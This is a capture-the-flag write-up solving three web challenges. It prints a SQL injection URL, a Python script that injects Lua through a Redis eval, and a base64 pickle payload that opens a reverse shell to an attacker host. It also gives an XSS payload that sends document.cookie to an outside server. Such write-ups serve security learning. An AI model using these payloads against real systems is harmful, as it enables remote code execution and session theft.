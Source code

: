 # Advertisement

It gives us a link `https://realworldctf.com/contest/5b5bc66832a7ca002f39a26b` to let us hack the platform.

Just try some simple SQL injection payloads, we can get the flag:`https://realworldctf.com/contest/5b5bc66832a7ca002f39a26b"or"1"=1`

# Web

## Bookhub

Let's see the key code snippet:
```python
{% raw %}
@login_required
@user_blueprint.route('/admin/system/refresh_session/', methods=['POST'])
def refresh_session():
    """
    delete all session except the logined user

    :return: json
    """

    status = 'success'
    sessionid = flask.session.sid
    prefix = app.config['SESSION_KEY_PREFIX']

    if flask.request.form.get('submit', None) == '1':
        try:
            rds.eval(rf'''
            local function has_value (tab, val)
                for index, value in ipairs(tab) do
                    if value == val then
                        return true
                    end
                end
                
                return false
            end
                
            local inputs = {{ "{prefix}{sessionid}" }}
            local sessions = redis.call("keys", "{prefix}*")
                
            for index, sid in ipairs(sessions) do
                if not has_value(inputs, sid) then
                    redis.call("del", sid)
                end
            end
            ''', 0)
        except redis.exceptions.ResponseError as e:
            app.logger.exception(e)
            status = 'fail'

    return flask.jsonify(dict(status=status))
```

And the:
```python
@user_blueprint.route('/login/', methods=['GET', 'POST'])
def login():
    form = LoginForm(data=flask.request.data)
    if form.validate_on_submit():
        user = User.query.filter_by(username=form.username.data).first()
        login_user(user, remember=form.remember_me.data)

        return flask.redirect(flask.url_for('book.admin'))

    return flask.render_template('login.html', form=form){% endraw %}
```

In the `refresh_session` function, we get an `rds.eval` which evals lua code and also control `prefix` via `app.config['SESSION_KEY_PREFIX']`.  `} payload {` will lead to code execution.

To bypass CSRF protection, we need to create a session by giving `bookhub-session`(which is our payload). The attack script is:
```python
import requests
import re

# Debug
DEBUG_URL = "http://18.213.16.123:5000"
# DEBUG_URL = "http://127.0.0.1:5000"
DEBUG_LOGIN = DEBUG_URL + "/login/"
DEBUG_REFRESH = DEBUG_URL + "/admin/system/refresh_session/"

def log(s):
    print(f"[*] {s}")

def create_csrf_token(session_id):
    cookies = { "bookhub-session" : session_id }
    response = requests.get(DEBUG_LOGIN, cookies=cookies)

    csrf_token = re.findall('name="csrf_token" type="hidden" value="(.+?)">', response.text)[0]
    return csrf_token


def refresh_session(session_id, csrf_token):
    headers = { "Content-Type" : "application/x-www-form-urlencoded" }
    cookies = { "bookhub-session" : session_id }
    data = { "csrf_token" : csrf_token, "submit" : 1 }

    response = requests.post(DEBUG_REFRESH, headers=headers, cookies=cookies, data=data)
    return response.text

# Create CSRF token
lua_payload = '"} and redis.call("BGSAVE") and {"a'
csrf_token = create_csrf_token(lua_payload)
log(f"CSRF Token : {csrf_token}")

# LUA code exec
response = refresh_session(lua_payload, csrf_token)
print(response)
```
. Just edit variable `lua_payload` to run yours.

Now, we need to leak the flag. First, we should keep our session via following payload: `'abc",redis.call("set","bookhub:session:abc",YOUR_SESSION),"'`

Later, we found that the code uses *pickle* to unserialize, which allows us to RCE.

Basically, we can use:
```
Y3Bvc2l4CnN5c3RlbQpwMQooUydweXRob24gLWMgXCdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgidXJsLndlLmNvbnRyb2xsIiw0NDQ0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7cD1zdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwiLWkiXSk7XCcnCnAyCnRScDMKLg
```
as YOUR_SESSION, then we can get shell.

## Dot Free

Source code:
```html
<script>
    function lls(src) {
        var el = document.createElement('script');
        if (el) {
            el.setAttribute('type', 'text/javascript');
            el.src = src;
            document.body.appendChild(el);
        }
    };

    function lce(doc, def, parent) {
        var el = null;
        if (typeof doc.createElementNS != "undefined") el = doc.createElementNS("http://www.w3.org/1999/xhtml", def[0]);
        else if (typeof doc.createElement != "undefined") el = doc.createElement(def[0]);

        if (!el) return false;

        for (var i = 1; i
        < def.length; i++) el.setAttribute(def[i++], def[i]);
        if (parent) parent.appendChild(el);
        return el;
    };
    window.addEventListener('message', function (e) {
        if (e.data.iframe) {
            if (e.data.iframe && e.data.iframe.value.indexOf('.') == -1 && e.data.iframe.value.indexOf("//") == -1 && e.data.iframe.value.indexOf("。") == -1 && e.data.iframe.value && typeof(e.data.iframe != 'object')) {
                if (e.data.iframe.type == "iframe") {
                    lce(doc, ['iframe', 'width', '0', 'height', '0', 'src', e.data.iframe.value], parent);
                } else {
                    lls(e.data.iframe.value)
                }
            }
        }
    }, false);
    window.onload = function (ev) {
        postMessage(JSON.parse(decodeURIComponent(location.search.substr(1))), '*')
    }
</script>
<body>
<div class="body"></div>
<div class="grad"></div>
<div class="header">
    <div>Dot <span>Free</span></div>

</div>
<form action="/Recieve/" class="login" method="POST">
    <input type="text" placeholder="URL" name="url"><br><br><br><br>
    <input type="submit" value="Submit">
</form>
```

Basically, we need to attach `?` plus a json at the end of path, like this:
```
http://server/?{"iframe":{"value":"your uri"}}
```

Then, our JSON will be passed to:
```javascript
function (e) {
        if (e.data.iframe) {
            if (e.data.iframe && e.data.iframe.value.indexOf('.') == -1 && e.data.iframe.value.indexOf("//") == -1 && e.data.iframe.value.indexOf("。") == -1 && e.data.iframe.value && typeof(e.data.iframe != 'object')) {
                if (e.data.iframe.type == "iframe") {
                    lce(doc, ['iframe', 'width', '0', 'height', '0', 'src', e.data.iframe.value], parent);
                } else {
                    lls(e.data.iframe.value)
                }
            }
        }
```

My exploit only cares the lls function, so let's talk about that. Just do not add an `iframe` type in your JSON, you can trigger the lls:
```javascript
function lls(src) {
    var el = document.createElement('script');
    if (el) {
        el.setAttribute('type', 'text/javascript');
        el.src = src;
        document.body.appendChild(el);
    }
}
```

The function will attach our `value` as script tag's src. Because of limitation:
```javascript
if (e.data.iframe && e.data.iframe.value.indexOf('.') == -1 && e.data.iframe.value.indexOf("//") == -1 && e.data.iframe.value.indexOf("。") == -1 && e.data.iframe.value && typeof(e.data.iframe != 'object')) 
```

We cannot give `http://` or `https://` to execute arbitrary code.

However, we can use `data:text/html` protocol to bypass. With base64 encryption, we can use `.` to call function.

Final payload:
```
http://13.57.104.34/?{"iframe":{"value":"data:text/html;base64,dmFyIG9SZXEgPSBuZXcgWE1MSHR0cFJlcXVlc3QoKTsKb1JlcS5vcGVuKCJHRVQiLCAiaHR0cDovL3J1Zi5leGV5ZS5pby8iK2RvY3VtZW50LmNvb2tpZSk7Cm9SZXEuc2VuZCgpOw"}}
```

The encrypted data is the same as:
```javascript
var oReq = new XMLHttpRequest();
oReq.open("GET", "http://yourserver/"+document.cookie);
oReq.send();
```

Then you can get flag by viewing http request log.
